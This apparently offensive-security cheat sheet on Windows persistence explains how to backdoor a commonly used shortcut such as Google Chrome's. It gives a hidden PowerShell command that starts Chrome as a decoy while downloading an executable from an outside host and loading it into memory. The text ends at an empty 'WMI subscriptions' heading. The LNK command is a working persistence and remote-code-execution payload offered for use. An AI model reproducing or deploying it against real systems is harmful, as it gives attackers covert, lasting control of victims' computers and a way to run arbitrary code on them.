 # Persistence

## *LNK* backdoor
Backdoor any commonly used shortcut by changing the default target. For example with *Google Chrome*, change the shortcut from:
```
C:\Program Files\Google\Chrome\Application\chrome.exe
```

To:
```powershell
powershell.exe -nop -w hidden -c "[System.Diagnostics.Process]::Start('C:\Program Files\Google\Chrome\Application\chrome.exe');[System.Reflection.Assembly]::Load((iwr 'http://10.10.10.50/i.exe').Content)
```

## *WMI* subscriptions